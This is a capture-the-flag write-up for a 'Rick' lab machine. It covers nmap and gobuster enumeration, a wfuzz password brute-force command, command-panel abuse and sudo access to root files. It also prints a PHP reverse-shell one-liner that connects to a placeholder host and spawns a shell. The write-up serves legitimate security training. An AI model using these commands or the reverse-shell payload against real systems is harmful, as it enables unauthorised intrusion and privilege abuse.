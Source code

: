 # RICK WRITEUP
## Optional but useful:
When starting the machine, I got the IP and put it in hosts. To make it more efficient at getting to the site. IP: 10.10.108.239; host: rick.thm.

## Reconnaissance 
An important step in web enumeration is to get the nmap scan.

![namp_scan](assets/nmap_scan.png)


After seeing port: 80 (http port), we know there is a website involved. We also need to note that port: 22 (ssh port) is also open, which means we can possibly gain root access.

After going to the website, we see this

![home_scree](assets/home_screen.png)

We now know our goal, which is to find the last three secret ingredients to change Rick back into a person.

## Enumeration

After digging deeper, you can see in the inspect element the username.

![user_name](assets/user_name.png)

Username: R1ckRul3s

Very useful information; now we know there has to be some type of login page for this.

Knowing that a new page is needed using a fuzzing tool or directory brute forcing tool. The one I used was "gobsuter." Knowing we need to find a different page I used the payload of

`gobuster dir -u http://rick.thm -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php`

Got the results of:

![gobuster_result](assets/gobuster_result.png)

After looking at the results, one stands out the most. Login.php is most likely the page we are looking for.

Another page that wasn't listed was robots.txt (which is used for web scrapping); most websites have it. When looking at it, it only has Wubbalubbadubdub; maybe it has a significance.

![password](assets/password.png)

When using not knowing the password, you can try to brute force the password. Since we already know that the user name is "R1ckRul3s" it cuts down on how long it will take to find the password. After running

`wfuzz -c -z file,apache-user-enum-2.0.txt --hw 61 -d "username=R1ckRul3s&password=FUZZ" http://rick.thm/login.php`

The response was this:

![failed_fuzz](assets/failed_fuzz.png)

Although that random word in Robots.txt might be the password. And bingo, that was the password, and now we are on the portal.php page. So the username and password was R1ckRul3s, Wubbalubbadubdub.

![portal](assets/protal.png)

After looking around in the different tabs, it looks like we only have access to the commands section.

![denied](assets/denied.png)

This command panel might be what we need for the first ingredient. When you run 'ls' in the panel, it shows what is in the directory.

![dir1](assets/dir1.png)

When trying to read the file, it looks like we can't use the cat command. It is important to note that we are the user www-data. After multiple different commands to read the file, I found that the 'less' command works. Running

`less Sup3rS3cretPickl3Ingred.txt`

We get the first ingredient. Now we need to find the next two to help Rick turn back to normal. Looking back on the first directory, there is a text file named clue. Running the less command on the clue.txt says "Look around the file system for the other ingredient.".

After running pwd, we see that we are in the /var/www/html file path. We are not able to change the directory using cd, which means that we have to traverse the file system via the 'ls' command.

After looking, there is a file named "second ingredients" when running:
` ls ../../../home/rick/`

Instead of using the command panel, we can run a reverse PHP shell, which allowed access to the www-data user via the command line.
Payload:
    `php -r '$sock=fsockopen("[MACHINE IP]",[PORT NUMBER]);exec("/bin/sh -i <&3 >&3 2>&3");'`

Now we can use all of the commands that this user can do. Which also means that the website had some client-side filiters.

When running: `cat "second ingredients"` we get the second ingredient. It is required to have quotations around the second ingredients, since the command line thinks it is two different things. Now on to the third and final ingredient.

Most likely, the final ingredient would be in the root directory. When trying to ls the directory, there is an error saying we don't have the permissions. Although we can try the sudo command to get permission. Running: `sudo ls -la root` we see that 3rd.txt is in the root directory.

We now need to run the less command to see the file: `sudo less root/3rd.txt`. It works! The third and final ingredient was found, and Rick is now back to a normal person.

## Conclusion

At the beginning, using nmap to see the open ports and using gobuster to find the directories. We were able to gain access to the login page. Using the command panel to get the first ingredient, then using a PHP reverse shell to gain access to the machine. Finding the second ingredient in `/home/rick/`. Finally, finding the last indgredient in `/root/3rd.txt` using sudo to gain permission.
